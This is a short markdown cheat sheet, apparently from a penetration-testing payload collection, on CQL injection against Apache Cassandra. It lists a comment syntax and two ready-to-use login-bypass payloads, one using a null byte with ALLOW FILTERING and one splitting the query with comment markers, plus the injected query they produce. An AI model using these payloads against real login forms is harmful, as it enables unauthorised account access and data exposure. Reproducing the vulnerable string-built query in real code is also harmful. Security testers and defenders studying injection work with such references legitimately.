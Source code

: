 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Summary

* [Cassandra comment](#cassandra-comment)
* [Cassandra - Login Bypass](#cassandra---login-bypass)
  * [Login Bypass 0](#login-bypass-0)
  * [Login Bypass 1](#login-bypass-1)
* [References](#references) 

## Cassandra comment

```sql
/* Cassandra Comment */
```

## Cassandra - Login Bypass

### Login Bypass 0

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Login Bypass 1

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

## References

* [Injection In Apache Cassandra – Part I - Rodolfo - EternalNoobs](https://eternalnoobs.com/injection-in-apache-cassandra-part-i/)
